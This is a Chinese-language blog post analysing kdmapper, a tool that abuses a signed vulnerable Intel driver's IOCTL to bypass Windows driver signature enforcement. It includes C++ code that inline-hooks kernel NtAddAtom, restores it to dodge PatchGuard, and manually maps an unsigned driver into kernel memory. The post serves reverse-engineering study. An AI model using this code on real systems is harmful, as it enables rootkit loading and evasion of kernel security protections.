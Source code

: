 ```yaml
---
layout: post
title: "加载无签名驱动"
date: 2021-07-19 14:16:48 +0800
categories: driver re
---
```


由于dse的出现，未经签名的驱动无法被内核加载，而使用带有签名的漏洞驱动通过利用漏洞的方式加载无签名的驱动是一种可行的方式。本文将通过分析kdmapper的代码来探究加载无签名驱动的方法。

## 漏洞分析

kdmapper通过加载有签名的漏洞驱动并利用漏洞来实现加载未签名驱动的功能。漏洞的位置位于驱动ioctl处理函数中，驱动在初始化过程中注册了ioctl处理函数并在控制码为0x80862007的对应函数中提供了任意地址读写、获取物理地址、映射任意地址等功能

![image-20210719111311394](/assets/images/image-20210719111311394.png)

映射地址功能

![image-20210719111346099](/assets/images/image-20210719111346099.png)

获取物理地址

![image-20210719111406927](/assets/images/image-20210719111406927.png)



任意地址读写

![image-20210719111433722](/assets/images/image-20210719111433722.png)

## 从任意地址写到代码执行

由于漏洞驱动提供了获取物理地址以及映射物理地址的功能，因此kdmapper可以使用映射物理地址的方式读写被保护的内存，通过对内核函数进行inline hook的方法进行劫持实现任意代码执行。

```c++
		//获取r3 NtAddAtom地址
		HMODULE ntdll = GetModuleHandleA("ntdll.dll");

		const auto NtAddAtom = reinterpret_cast<void*>(GetProcAddress(ntdll, "NtAddAtom"));

		//inline hook 使用的跳转代码
		uint8_t kernel_injected_jmp[] = { 0x48, 0xb8, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0xff, 0xe0 };
		uint8_t original_kernel_function[sizeof(kernel_injected_jmp)];
		*(uint64_t*)&kernel_injected_jmp[2] = kernel_function_address;
		
		//获取r0 NtAddAtom地址
		static uint64_t kernel_NtAddAtom = GetKernelModuleExport(device_handle, intel_driver::ntoskrnlAddr, "NtAddAtom");


		// Overwrite the pointer with kernel_function_address
		if (!WriteToReadOnlyMemory(device_handle, kernel_NtAddAtom, &kernel_injected_jmp, sizeof(kernel_injected_jmp)))
			return false;

		// Call function
		if constexpr (!call_void) {
			using FunctionFn = T(__stdcall*)(A...);
			const auto Function = reinterpret_cast<FunctionFn>(NtAddAtom);

			*out_result = Function(arguments...);
		}
		else {
			using FunctionFn = void(__stdcall*)(A...);
			const auto Function = reinterpret_cast<FunctionFn>(NtAddAtom);

			Function(arguments...);
		}

		// Restore the pointer/jmp
		WriteToReadOnlyMemory(device_handle, kernel_NtAddAtom, original_kernel_function, sizeof(kernel_injected_jmp));

```

在inlinehook函数之后，通过在r3调用NtAddAtom触发inline hook。为了避免被PG检测到，在调用完成后立即恢复原函数

## 内存加载驱动

驱动文件同样是PE结构的文件，因此内存加载方式几乎一样，在处理完导入表和重定位后，三环程序通过漏洞驱动将驱动镜像写入到分配好的内核地址中，接着调用驱动的入口函数完成驱动的加载。

```c++
	std::vector<uint8_t> raw_image = { 0 };

	if (!utils::ReadFileToMemory(driver_path, &raw_image)) {
		Log(L"[-] Failed to read image to memory" << std::endl);
		return 0;
	}

	const PIMAGE_NT_HEADERS64 nt_headers = portable_executable::GetNtHeaders(raw_image.data());

	const uint32_t image_size = nt_headers->OptionalHeader.SizeOfImage;

	void* local_image_base = VirtualAlloc(nullptr, image_size, MEM_RESERVE | MEM_COMMIT, PAGE_READWRITE);
	if (!local_image_base)
		return 0;

	DWORD TotalVirtualHeaderSize = (IMAGE_FIRST_SECTION(nt_headers))->VirtualAddress;

	uint64_t kernel_image_base = intel_driver::AllocatePool(iqvw64e_device_handle, nt::POOL_TYPE::NonPagedPool, image_size - (destroyHeader ? TotalVirtualHeaderSize : 0));

	do {
		// Copy image headers

		memcpy(local_image_base, raw_image.data(), nt_headers->OptionalHeader.SizeOfHeaders);

		// Copy image sections

		const PIMAGE_SECTION_HEADER current_image_section = IMAGE_FIRST_SECTION(nt_headers);

		for (auto i = 0; i < nt_headers->FileHeader.NumberOfSections; ++i) {
			auto local_section = reinterpret_cast<void*>(reinterpret_cast<uint64_t>(local_image_base) + current_image_section[i].VirtualAddress);
			memcpy(local_section, reinterpret_cast<void*>(reinterpret_cast<uint64_t>(raw_image.data()) + current_image_section[i].PointerToRawData), current_image_section[i].SizeOfRawData);
		}

		uint64_t realBase = kernel_image_base;
		if (destroyHeader) {
			kernel_image_base -= TotalVirtualHeaderSize;
			Log(L"[+] Skipped 0x" << std::hex << TotalVirtualHeaderSize << L" bytes of PE Header" << std::endl);
		}

		// Resolve relocs and imports

		RelocateImageByDelta(portable_executable::GetRelocs(local_image_base), kernel_image_base - nt_headers->OptionalHeader.ImageBase);

		if (!ResolveImports(iqvw64e_device_handle, portable_executable::GetImports(local_image_base))) {
			Log(L"[-] Failed to resolve imports" << std::endl);
			kernel_image_base = realBase;
			break;
		}

		// Write fixed image to kernel

		if (!intel_driver::WriteMemory(iqvw64e_device_handle, realBase, (PVOID)((uintptr_t)local_image_base + (destroyHeader ? TotalVirtualHeaderSize : 0)), image_size - (destroyHeader ? TotalVirtualHeaderSize : 0))) {
			Log(L"[-] Failed to write local image to remote image" << std::endl);
			kernel_image_base = realBase;
			break;
		}

		// Call driver entry point

		const uint64_t address_of_entry_point = kernel_image_base + nt_headers->OptionalHeader.AddressOfEntryPoint;
        
		NTSTATUS status = 0;

		if (!intel_driver::CallKernelFunction(iqvw64e_device_handle, &status, address_of_entry_point, param1, param2)) {
			Log(L"[-] Failed to call driver entry" << std::endl);
			kernel_image_base = realBase;
			break;
		}

		if (free)
			intel_driver::FreePool(iqvw64e_device_handle, realBase);

		VirtualFree(local_image_base, 0, MEM_RELEASE);
		return realBase;

	} while (false);


	VirtualFree(local_image_base, 0, MEM_RELEASE);

	intel_driver::FreePool(iqvw64e_device_handle, kernel_image_base);
```

